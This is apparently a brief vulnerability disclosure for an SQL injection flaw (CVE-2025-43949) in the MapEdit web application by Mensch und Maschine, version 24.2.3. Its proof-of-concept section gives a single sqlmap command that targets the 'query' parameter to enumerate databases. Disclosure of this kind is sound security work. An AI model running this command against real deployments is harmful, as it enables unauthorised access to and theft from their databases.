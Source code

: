 # CVE-2025-43949
MuM MapEdit application is vulnerable to SQL Injection that allows an attacker to execute malicious SQL statements that control a web application's database server.

# Affected Product & Version
Mensch und Maschine mapedit-web version: 24.2.3

Reference: https://www.mum.de/produkte/mum-mapedit

# PoC
SQLMap exploit
````
sqlmap -r sql.txt --random-agent -p query --batch --dbs
````

# Credits
This vulnerability was discovered by Manjyot Singh of Henkel Cyber Security Team.
